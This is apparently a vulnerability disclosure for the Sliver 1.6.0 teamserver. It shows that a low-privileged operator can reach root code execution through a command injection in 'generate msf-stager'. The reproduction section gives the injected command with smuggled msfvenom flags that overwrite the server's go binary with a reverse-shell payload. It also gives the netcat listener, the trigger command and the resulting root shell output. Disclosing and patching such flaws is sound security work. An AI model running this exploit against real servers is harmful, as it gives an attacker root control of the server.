

# Sliver Auth RCE

## Description

Sliver version 1.6.0 is vulnerable to RCE on the teamserver by a low-privileged "operator" user. The RCE is as the system root user since the Sliver server is installed as root.

The exploit is pretty fun as we make the Sliver server pwn itself.



## Impact
As described in a [past issue](https://github.com/BishopFox/sliver/issues/65), "there is a clear security boundary between the operator and server, an operator should not inherently be able to run commands or code on the server." An operator who exploited this vulnerability would be able to view all console logs, kick all other operators, view and modify files stored on the server, and ultimately delete the server.

## Reproduction

First configure the Sliver server [in multiplayer mode and add an operator profile](https://sliver.sh/docs?name=Multi-player+Mode).

Next, compile a slightly older version of the Sliver client. The commit after 5016fb8d updates the Cobra command-line parsing library in the Sliver client to strictly validate command flags.

```
git checkout 5016fb8d
VERSION=1.6.0 make client
```

The latest server version is targeted:

```
All hackers gain exalted
[*] Server v1.6.0 - bdfd89167dd47aece2397c638d482f94f3f91cba
[*] Client 1.6.0 - 5016fb8d7cdff38c79e22e8293e58300f8d3bd57
[*] Welcome to the sliver shell, please type 'help' for options`
```

The exploit uses a command injection in the `generate msf-stager` to inject the `--out` flag to `msfvenom`. We overwrite Sliver's own go binary at `/root/.sliver/go/bin/go`:

```
sliver > generate msf-stager --lhost 192.168.0.128 --lport 8888 --advanced --platform=linux&--payload=linux/x64/shell_reverse_tcp&--format=elf&--out=/root/.sliver/go/bin/go

[*] Sliver implant stager saved to: [...]
```

The other injected flags are to force a Linux payload, and not necessary if running the Sliver server on Windows.

If you check the saved implant locally on the client, it's 0 bytes as the output got written to the file on the server instead.

On the attacking machine, setup a netcat shell:

```
$ nc -lvp 8888
Listening on 0.0.0.0 8888
```

Trigger the stager by running a command which executes `/root/.sliver/go/bin/go`:

```
sliver > generate beacon --mtls 1.2.3.4
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
 ⠼  Compiling, please wait ...
```

A root shell will pop:

```
$ nc -lvp 8888
Listening on 0.0.0.0 8888
Connection received on 192.168.0.183 39238
whoami
root
```

The vulnerable code was introduced in https://github.com/BishopFox/sliver/pull/1281
